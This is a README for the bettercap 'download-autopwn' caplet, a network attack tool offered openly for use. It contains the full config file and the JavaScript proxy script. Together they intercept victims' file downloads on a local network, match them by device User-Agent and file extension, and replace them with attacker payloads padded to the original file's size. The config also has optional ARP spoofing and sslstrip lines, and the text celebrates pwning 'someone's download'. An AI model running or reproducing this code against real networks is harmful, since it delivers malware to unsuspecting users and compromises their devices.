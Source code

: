 <p align="center"><img height="142px" src="https://cdn.rawgit.com/yungtravla/cdn/a5ec3cd7/github.com/bettercap/caplets/download-autopwn/dap.svg" /></p>


### caplets/download-autopwn.cap

Everything is configurable in the **download-autopwn.cap** file.

```sh
# documentation can be found at https://github.com/bettercap/caplets/blob/master/download-autopwn/README.md
# 
# this module lets you intercept very specific download requests and replaces the payload with one of your choice
#
# in order for a download to get intercepted:
#    1. the victim's user-agent string must match the downloadautopwn.useragent.x regexp value
#    2. the requested file must match one of the downloadautopwn.extensions.x file extensions
#
# you can find the downloadautopwn.devices in the caplets/download-autopwn/ folder (you can add your own)
#

# choose the devices from which downloads get pwned (enter the dir names of choice from caplets/download-autopwn/)
# (or feel free to add your own)
set downloadautopwn.devices android,ios,linux,macos,ps4,windows,xbox

# choose the regexp value that the victim's User-Agent has to match
# (feel free to add your own)
set downloadautopwn.useragent.android  Android
set downloadautopwn.useragent.ios      iPad|iPhone|iPod
set downloadautopwn.useragent.linux    Linux
set downloadautopwn.useragent.macos    Intel Mac OS X 10_
set downloadautopwn.useragent.ps4      PlayStation 4
set downloadautopwn.useragent.windows  Windows|WOW64
set downloadautopwn.useragent.xbox     Xbox

# choose which file extensions get intercepted and replaced by your payload on specific devices (payloads are in caplets/download-autopwn/.../)
# (again, you can add as many as you want)
# make sure the payload files exist and that they are all named "payload" (for example: payload.exe)
set downloadautopwn.extensions.android  apk,pdf,sh,pfx,zip
set downloadautopwn.extensions.ios      ipa,ios,ipb,ipsw,ipsx,ipcc,mobileconfig,pdf,zip
set downloadautopwn.extensions.linux    c,go,sh,py,rb,cr,pl,deb,pdf,jar,zip
set downloadautopwn.extensions.macos    app,dmg,doc,docx,jar,ai,ait,psd,pdf,c,go,sh,py,rb,pl,terminal,zip
set downloadautopwn.extensions.ps4      disc,pup,pdf,doc,docx,zip
set downloadautopwn.extensions.windows  exe,msi,bat,jar,dll,doc,docx,swf,psd,ai,ait,pdf,rar,zip
set downloadautopwn.extensions.xbox     exe,msi,jar,pdf,doc,docx,zip

# choose whether the proxy module resizes your payload to the requested file's size (if not set then default=false)
set downloadautopwn.resizepayloads true

# set download-autopwn.js as proxy script
set http.proxy.script caplets/download-autopwn.js
# uncomment if you want sslstrip enabled
# set http.proxy.sslstrip true
# start proxy
http.proxy on

# wait for everything to start properly
sleep 1

# uncomment if you want arp spoofing (make sure probing is off as it conflicts with arp spoofing)
# arp.spoof on
```

<br>

The `downloadautopwn.devices` variable accepts comma separated values. 
<br>
These values are the folder names inside the **caplets/download-autopwn/** directory.

<br>

The `downloadautopwn.useragent.x` variables accept a regular expression value (where `x` is the device name).
<br>
The victim's User-Agent string has to match this regex value.

<br>

The `downloadautopwn.extensions.x` variables accept comma separated file extensions that are present in the device's folder (where `x` is the device name).
<br>
These files must be present in the device's folder, and they must be called `payload` (for example: `payload.exe`).

<br>

The `downloadautopwn.resizepayloads` variable accepts a boolean value (default=false).
<br>
If this value is set to true, your payloads will be resized to match the requested file's size (unless your payload is bigger or equal to the requested file's size).

<br>

### caplets/download-autopwn.js

No changes should have to be made in the **download-autopwn.js** file.

```javascript
var targets = {}

var nullbyte = "\u0000"

var green   = "\033[32m",
    boldRed = "\033[1;31m",
    onRed   = "\033[41m",
    reset   = "\033[0m",
    redLine = "\n  " + onRed + " " + reset

function onLoad() {
	devices = env("downloadautopwn.devices").split(",")
	logStr = ""
	for (var i = 0; i < devices.length; i++) {
		item = {
			"device": devices[i],
			"useragent": env("downloadautopwn.useragent." + devices[i]),
			"extensions": env("downloadautopwn.extensions." + devices[i]).toLowerCase().split(",")
		}
		targets[i] = item
		logStr += "\n  " + green + targets[i]["device"] + reset +
		          "\n    User-Agent: " + targets[i]["useragent"] + 
		          "\n    Extensions: " + targets[i]["extensions"] + "\n"
	}
	log("Download Autopwn loaded.\n\nDownload Autopwn targets: \n" + logStr)
}

function onResponse(req, res) {
	// First of all check whether the requested path might have an extension (to save cpu)
	var requestedFileName = req.Path.replace(/.*\//g, "")
	if ( requestedFileName.indexOf(".") != -1 ) {
		var userAgent = req.GetHeader("User-Agent", ""),
		    extension,
		    headerCount = req.Headers.length
		// Iterate through targets
		for ( var t = 0; t < Object.keys(targets).length; t++ ) {
			// Check if User-Agent is a target
			regex = new RegExp(targets[t]["useragent"])
			if ( userAgent.match(regex) ) {
				// Iterate through target extensions
				for (var e = 0; e < targets[t]["extensions"].length; e++) {
					// Check if requested path contains a targeted extension
					// function endsWith() could be a nice simplification here
					if ( requestedFileName.replace(/.*\./g, "").toLowerCase() == targets[t]["extensions"][e] ) {
						extension = targets[t]["extensions"][e]
						// Autopwn
						logStr = "\n" + redLine + "  Autopwning download request from " + boldRed + req.Client + reset + 
						         redLine + 
						         redLine + "  Found " + boldRed + extension.toUpperCase() + reset + " extension in " + boldRed + req.Hostname + req.Path + reset + 
						         redLine + 
						         redLine + "  Grabbing " + boldRed + targets[t]["device"].toUpperCase() + reset + " payload..."
						// Check requested file size
						requestedFile = res.ReadBody()
						requestedFileSize = requestedFile.length
						payload = readFile("caplets/download-autopwn/" + targets[t]["device"] + "/payload." + extension)
						payloadSize = payload.length
						logStr += redLine + "  The size of the requested file is " + boldRed + requestedFileSize + reset + " bytes" + 
						          redLine + "  The raw size of your payload is " + boldRed + payloadSize + reset + " bytes" + redLine
						// Append nullbytes to payload if resizing is enabled and if requested file is larger than payload
						if ( env("downloadautopwn.resizepayloads") == "true" && requestedFileSize > payloadSize ) {
							logStr += redLine + "  Resizing your payload to " + boldRed + requestedFileSize + reset + " bytes..."
							sizeDifference = requestedFileSize - payloadSize
							nullbyteString = Array(sizeDifference + 1).join(nullbyte)
							payload += nullbyteString
						}
						// Set Content-Disposition header to enforce file download instead of in-browser preview
						res.SetHeader("Content-Disposition", "attachment; filename=\"" + requestedFileName + "\"")
						// Update Content-Length header in case our payload is larger than the requested file
						res.SetHeader("Content-Length", payload.length)
						logStr += redLine + "  Serving your payload to " + boldRed + req.Client + reset + "...\n"
						log(logStr)
						res.Body = payload
					}
				}
			}
		}
	}
}
```

<br>

### Now you're all set to pwn!

#### What it looks like when you have configured a crazy amount of payloads

![screenshot 1](https://user-images.githubusercontent.com/29265684/37411166-e3796c46-27ed-11e8-94da-8e1c226a0dd3.png)

#### What it looks like when you pwn someone's download >:-)

![screenshot 2](https://user-images.githubusercontent.com/29265684/37409382-f6bb143e-27e9-11e8-86c5-c1c556900556.png)

Have fun!
